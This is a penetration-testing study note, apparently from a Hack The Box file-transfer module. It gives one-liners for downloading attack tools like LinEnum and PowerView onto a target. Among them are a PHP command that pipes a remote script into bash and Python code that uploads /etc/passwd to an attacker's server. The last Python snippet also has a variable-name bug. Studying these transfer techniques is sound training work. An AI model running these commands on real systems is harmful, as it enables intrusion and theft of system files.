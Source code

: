 ```yaml
---
Title: HTB\File_Transfers\Using Code
tags:
  - os/windows- cybersec
source: HTB\File_Transfers\Using Code
---
```


# HTB\File_Transfers\Using Code

> Źródło: `HTB\File_Transfers\Using Code`

Using Python one liners (Download):
Ovas420@htb[/htb]$ python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'

Ovas420@htb[/htb]$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'

Using PHP Download file_get_contents()
Ovas420@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'

Using PHP Download Fopen()
Ovas420@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote =
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'

php download a file and pipe it to bash
Ovas420@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
Note: The URL can be used as a filename with the @file function if the fopen wrappers have been enabled.

Ruby and Perl are other popular languages that can also be used to transfer files.
These two programming languages also support running one-liners from an operating system command line using the option -e.

Ruby
Ovas420@htb[/htb]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'

Perl
Ovas420@htb[/htb]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'

The following javascript code is based on (https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068)
We will create a file wget.js with the following content:

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```text
Download a file using javascript and cscript.exe

```cmd
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```text
VBScript (https://en.wikipedia.org/wiki/VBScript)
VBScript ("Microsoft Visual Basic Scripting Edition") is an Active Scripting language developed by Microsoft that is modeled on Visual Basic. VBScript has been installed by default in every desktop release of Microsoft Windows since Windows 98.

we will create a wget.vbs file with the following content:

dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

```VBS
with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```text
Download a File Using VBScript and cscript.exe
```cmd
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```python
If we want to upload a file, we need to understand the functions in a particular programming language to perform the upload operation.
The Python3 requests module allows you to send HTTP requests (GET, POST, PUT, etc.) using Python.
We can use the following code if we want to upload a file to our Python3 uploadserver.

starting the python uploadserver module
Ovas420@htb[/htb]$ python3 -m uploadserver

uploading a file using a python one-liner
Ovas420@htb[/htb]$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'

we can split this one-liner into a file to see it clearer

```python
# To use the requests function, we need to import the module first.
import requests

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file.
r = requests.post(url,files={"files":file})
```

**Powiązane:** [[Graph-Home]] [[OS-Windows]]
